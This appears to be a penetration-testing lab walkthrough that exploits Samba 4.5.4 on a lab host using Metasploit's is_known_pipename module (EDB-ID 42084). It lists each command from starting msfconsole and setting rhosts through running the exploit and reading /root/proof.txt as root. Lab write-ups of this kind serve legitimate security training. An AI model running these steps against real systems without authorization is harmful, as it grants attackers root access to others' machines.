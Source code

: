Attack Vector 5 - Windows 6.1 Samba 4.5.4-Ubuntu

Notice the result from os-smb-discovery

Google search for: Windows 6.1 Samba 4.5.4
![6c9b35fe1864ac50d8478322a8b65c56.png](../../../_resources/0cc5510b594e4e6ca826a2b84036335f.png)

Choose the exploit-db link. **EDB-ID: 42084**
Notice that it requires metasploit
![7eba9bf837a2378a971a7bb8e2e54c6f.png](../../../_resources/67a6cfa54b354170979b8813b89317ce.png)

Start postgresql
`sudo systemctl postgresql start`
![8f66e4a76a2291b7521eb2aa612e03ce.png](../../../_resources/d1227f7cd61e490497705c82c836144a.png)

Start the msfconsole without ascii banner
`sudo msfconsole -q`
![999d70f5a952d6a36f76881945062ff0.png](../../../_resources/1bdc1103ff9e467b90107b953233d8a8.png)

Search for 'is_known_pipename' and select it
`search is_known_pipename`
`use 0`
![5802c1285e97fd501b4cf2332bc25d91.png](../../../_resources/a1413088c270482cbde51be698bceb8d.png)

Show options
`show options`
![ec2a2e3df44ce540e1ababa9db36dec4.png](../../../_resources/b105380f7204498f99ee5733cfb665b1.png)

Change rhosts to the target IP
`set rhosts 10.11.1.146`
![5a756399c644783c794f69a0dbf59667.png](../../../_resources/96cd9edef449486e9f1d7fefa9718ba4.png)

Verify that the change to rhosts was made
`show options`
![2ca1d4c199a107b8a5b55e77cd47ab15.png](../../../_resources/e964807e8f4a47f7872ffc6318922657.png)

Check to see if the exploit will work
`check`
![0a38a7c3bafcb7628d9e6bc724e660ce.png](../../../_resources/c571b68d46bd4b659f24a3dfa4ad470d.png)

Run the exploit command
`exploit`
![175b8bf179e86c11d004f951804c26f4.png](../../../_resources/9edeb38de05b4cd5a6a4b7a6b9da73d2.png)

Check id
`whoami`
![a0df099e3d7f7680762d7d98b5ee9f5f.png](../../../_resources/48d5496243e040fbb7ae5bec0e059c6b.png)

Check what directory we're in
`pwd`
![9ee77662099a4564ecf846d91a78046a.png](../../../_resources/7de7cb31e6aa4a7fa400209952e176cc.png)

Check what files are in /root
`ls -la /root/*`
![9ec485c5e7b188d95c524e18133d4e6f.png](../../../_resources/39aad9dd83d64626821ddc42b26741b5.png)

Read /root/proof.txt file
`cat /root/proof.txt`
![8894a4ba820ff9200096f3d9e2e82924.png](../../../_resources/0e4165b0ade84e73ad291335dea58e54.png)




